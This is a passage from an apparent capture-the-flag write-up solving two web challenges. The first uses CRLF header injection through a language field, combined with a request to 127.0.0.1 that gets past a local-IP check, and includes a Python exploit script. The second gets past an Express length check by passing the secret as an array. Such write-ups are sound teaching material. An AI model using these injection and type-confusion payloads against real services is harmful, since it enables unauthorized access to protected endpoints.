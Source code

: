       req = '\r
'.join([
        f"GET {o.path} HTTP/1.1",
        f"Host: {o.netloc}",
        f"Connection: close",
        f"Accept-Language: {lang}",
        "",
        ""
      ])

[/code]

For the header, we can submit a `lang` value as `'en-us\r
X-Secret: YEAH'` so we will use the new line character that will be correctly interpreted when we build the request for the flag. And how to pass the local IP check? Well, the code is on the server so we can just query it directly by passing `127.0.0.1`. So the following request will give us the flag for this challenge.
[code]
    url = 'http://127.0.0.1:5000/secret'
    splitter = '\r
'
    additional = ['en-US','X-Secret: YEAH']
    r = splitter.join(additional)
    data = {'url':url, 'lang':r}
    requests.post('http://challenges.gynvael.stream:5000/fetch',data=data)

[/code]

## :5001

This one is in NodeJs & Express challenge. The problem that we need overcome.
[code]
    if (req.query.secret.length > 5) {
        res.end("I don't allow it.")
        return
    }

    if (req.query.secret != "GIVEmeTHEflagNOW") {
      res.end("Wrong secret.")
      return
    }

[/code]

The first check ensures that we do not provide more than 5 characters wile the second one check if our secret is "GIVEmeTHEFlagNOW", which for sure is longer than 5 characters.

How to deal with that? The old tricks with passing an array instead of just a value. If we do that, the `.length` for the first one will be calculated based on array elements number and the second comparison, since it's weekly typed will just take the string stored at index zero and compare.

Our final request is:

`http://challenges.gynvael.stream:5001?secret[]=GIVEmeTHEfl
agNOW'`
